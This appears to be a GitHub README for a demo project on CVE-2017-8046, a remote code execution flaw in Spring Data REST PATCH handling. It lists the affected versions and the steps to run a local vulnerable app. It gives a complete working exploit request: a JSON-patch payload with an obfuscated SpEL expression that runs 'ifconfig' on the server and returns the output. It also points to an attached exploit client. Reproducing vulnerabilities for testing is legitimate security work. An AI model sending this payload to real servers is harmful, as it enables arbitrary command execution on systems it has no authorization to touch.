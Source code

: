 ## Example of CVE-2017-8046: RCE in PATCH requests in Spring Data REST
Malicious PATCH requests submitted to servers using Spring Data REST backed HTTP 
resources can use specially crafted JSON data to run arbitrary Java code.

### Affected Pivotal Products and Versions
* Spring Data REST versions prior to 2.6.9 (Ingalls SR9), 3.0.1 (Kay SR1)
* Spring Boot (if Spring Data REST module is used) versions prior to 1.5.9, 2.0 M6

### How to test?
#### Checkout this project

#### Run Spring Boot application
 It is a Spring Boot application with embedded Tomcat, so run the main class **SpringRestDataExploitExampleApplication**

#### Add a new user
To make a successful exploit test, run the following POST:
```
POST http://localhost:8080/users
Content-Type: application/json

{
  "name": "Test",
  "email": "test@test.com"
}
```
#### Make exploit using PATCH:
```
PATCH http://localhost:8080/users/1
Content-Type: application/json-patch+json

[{
  "op": "replace",
  "path": "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec((T(java.lang.System).getProperty(\"os.name\").toLowerCase().contains(\"win\")?\"cmd \"+T(java.lang.String).valueOf(T(java.lang.Character).toChars(0x2F))+\"c \":\"\")+T(java.lang.String).valueOf(new char[]{T(java.lang.Character).toChars(105)[0],T(java.lang.Character).toChars(112)[0],T(java.lang.Character).toChars(99)[0],T(java.lang.Character).toChars(111)[0],T(java.lang.Character).toChars(110)[0],T(java.lang.Character).toChars(102)[0],T(java.lang.Character).toChars(105)[0],T(java.lang.Character).toChars(103)[0]})).getInputStream(),T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x",
  "value": "pwned"
}]
```
The previous PATCH sends the result of the **ifconfig** command back from server to you.

I have attached a more flexible client to make your own tests: the class SpringBreakCve20178046 with its own command line.
Source code comes from https://www.exploit-db.com/exploits/44289.